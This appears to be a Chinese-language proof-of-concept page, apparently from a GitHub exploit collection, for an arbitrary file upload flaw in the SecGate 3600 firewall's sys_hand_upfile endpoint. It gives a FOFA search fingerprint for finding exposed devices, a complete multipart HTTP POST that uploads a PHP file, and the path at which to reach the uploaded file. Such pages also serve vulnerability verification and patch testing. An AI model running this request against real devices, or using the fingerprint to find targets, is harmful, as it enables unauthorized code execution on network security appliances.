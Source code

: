 ## 网神SecGate 3600 防火墙sys_hand_upfile 任意文件上传漏洞

 网神 SecGate 3600 防火墙 sys_hand_upfile 存在任意文件上传漏洞，攻击者可构造特殊 HTTP 请求上传任意文件获取服务器权限，执行恶意命令等。

 ## fofa
 ```
body="./images/lsec/login/loading.gif"
```

## poc
```
POST /?g=sys_hand_upfile HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows 98; Trident/3.0)
Content-Length: 244
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: multipart/form-data; boundary=gttd4i4aadwh9lmlp1ez
 
--gttd4i4aadwh9lmlp1ez
Content-Disposition: form-data; name="upfile"; filename="ceshi.php"
 
<?php echo md5('666');unlink(__FILE__);?>
--gttd4i4aadwh9lmlp1ez
Content-Disposition: form-data; name="submit_post"
 
sys_hand_upfile
--gttd4i4aadwh9lmlp1ez--
```

![image](https://github.com/wy876/POC/assets/139549762/6ba66f9f-affd-4600-ac29-2cfe98502b45)

访问文件路径
http//127.0.0.1/attachements/ceshi.php
